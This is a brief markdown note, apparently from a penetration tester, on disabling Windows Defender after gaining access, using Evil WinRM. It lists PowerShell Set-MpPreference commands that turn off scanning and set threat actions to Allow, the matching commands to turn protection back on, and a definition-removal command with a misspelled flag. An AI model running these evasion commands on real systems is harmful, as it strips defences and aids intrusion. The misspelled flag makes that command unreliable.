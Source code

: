 # Disabling Windows Defender
There are a couple of way I do this. the first one is to just shut every thing off. I wuil generally use Evil WinRM for this. This will make registry changes and the changes should be immediate.
```Set-MpPreference -DisableArchiveScanning 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBehaviorMonitoring 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIntrusionPreventionSystem 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIOAVProtection 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRemovableDriveScanning 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBlockAtFirstSeen 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningNetworkFiles 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScriptScanning 1 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRealtimeMonitoring 1 -ErrorAction SilentlyContinue
Set-MpPreference -LowThreatDefaultAction Allow -ErrorAction SilentlyContinue
Set-MpPreference -ModerateThreatDefaultAction Allow -ErrorAction SilentlyContinue
Set-MpPreference -HighThreatDefaultAction Allow -ErrorAction SilentlyContinue```
The following will turn it back on.
```Set-MpPreference -DisableArchiveScanning 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBehaviorMonitoring 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIntrusionPreventionSystem 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableIOAVProtection 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRemovableDriveScanning 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableBlockAtFirstSeen 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScanningNetworkFiles 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableScriptScanning 0 -ErrorAction SilentlyContinue
Set-MpPreference -DisableRealtimeMonitoring 0 -ErrorAction SilentlyContinue
Set-MpPreference -LowThreatDefaultAction Block -ErrorAction SilentlyContinue
Set-MpPreference -ModerateThreatDefaultAction Block -ErrorAction SilentlyContinue
Set-MpPreference -HighThreatDefaultAction Block -ErrorAction SilentlyContinue```

The other way to do this is to revomve the Definitions File. This should disable Windows Defenders ability to detect anything.

```C:\Program Files\Windows Defender\MpCmdRun.exe -RevoveDefinitions```
